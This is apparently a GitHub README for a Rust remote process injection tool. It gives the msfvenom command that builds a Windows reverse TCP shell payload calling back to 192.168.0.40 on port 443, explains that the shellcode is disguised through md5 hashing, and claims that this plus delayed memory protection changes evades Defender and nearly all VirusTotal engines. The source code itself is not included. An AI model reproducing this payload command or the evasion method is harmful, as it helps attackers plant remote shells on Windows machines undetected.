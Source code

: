 # Remote Process Injection

The following is an example of remote process injection written in Rust using the [windows](https://crates.io/crates/windows) crate.
The payload is the result of taking each byte from `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.40 LPORT=443 -f rust` and md5 hashing them.
Just using simple hashing algorithim and a timed delay on memory protection operations bypasses Defender and all but three from VirusTotal.
![VirusTotal](https://media.discordapp.net/attachments/1104486226813272225/1227680247550447790/image.png?ex=66294954&is=6616d454&hm=327d142338b956cb96c7a1246d7796b281a61975322051e18d679c1067193925&=&format=webp&quality=lossless&width=845&height=923)
